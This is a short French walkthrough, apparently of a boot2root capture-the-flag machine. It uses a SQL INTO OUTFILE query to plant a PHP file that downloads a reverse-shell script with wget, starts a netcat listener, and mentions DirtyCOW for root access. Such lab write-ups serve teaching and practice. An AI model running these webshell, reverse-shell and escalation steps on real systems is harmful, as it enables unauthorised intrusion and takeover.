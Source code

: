 En suivant le même chemin pour arriver à avoir un accès root sur la db, on peut réussir à uploader n'importe quel fichier sur le serveur avec une requete SQL et lui faire éxécuter.
On trouve donc ce fichier (à modifier) qui nous permet d'avoir un shell sur la machine.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

On remplace l'IP par l'ip de notre hôte et le port par le port 4242.
```
select “<?php $output = shell_exec(‘wget https://raw.githubusercontent.com/mmartins1502/boot2root/master/scripts/reverse_shell.php ’); echo $output ?>” into outfile “/var/www/forum/templates_c/dl.php”
```
Avec "nc -v -n -l 4242" on attend une connection. 
On lance le script qui etablit la connexion, on a donc un shell connecté en remote ou on est connecté sur l'user www-data.
Enfin, on peut réutiliser l'exploit DirtyCOW pour créer un user root à partir d'ici.
Tadam!
